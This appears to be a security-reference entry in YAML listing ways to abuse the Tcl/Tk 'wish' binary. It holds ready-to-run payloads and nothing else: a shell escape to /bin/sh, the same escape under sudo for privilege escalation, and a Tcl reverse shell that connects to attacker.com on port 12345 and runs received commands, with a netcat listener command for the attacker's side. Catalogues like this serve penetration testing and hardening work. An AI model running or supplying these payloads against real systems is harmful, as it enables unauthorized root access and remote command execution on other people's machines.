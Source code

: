 ```yaml
---
functions:
  execute-interactive:
    - code: |
        wish
        exec /bin/sh <@stdin >@stdout 2>@stderr
  sudo-enabled:
    - code: |
        sudo wish
        exec /bin/sh <@stdin >@stdout 2>@stderr
  reverse-shell-non-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | wish
---
```

